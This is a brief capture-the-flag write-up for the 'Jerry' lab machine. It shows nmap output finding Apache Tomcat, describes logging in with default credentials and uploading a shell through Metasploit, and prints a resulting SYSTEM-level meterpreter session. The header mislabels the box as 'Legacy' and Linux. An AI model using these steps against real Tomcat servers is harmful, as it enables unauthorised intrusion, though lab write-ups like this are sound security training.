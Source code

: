 ```yaml
---
layout: post
title: Jerry
date: 2020-03-31
author: th3-3inst3in
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Legacy writeup

Easy linux machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Jerry/main.png)


Let's do a quick nmap all ports

```perl
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-31 09:23 EDT
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds                               
```

<br>

### Enumeration

So tomcat is running on port 8080 I used the following default passwords and one of them worked, I'll leave that up to you.
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown  


![Tomcat Manager]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Jerry/tomcatManager.png)


### Exploitation

Used msf to upload shell to tomcat

![Shell Upload]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Jerry/shellUpload.png)


and I dropped directly in to a root  / system shell

```perl
meterpreter > shell
Process 3 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
That's all pretty simple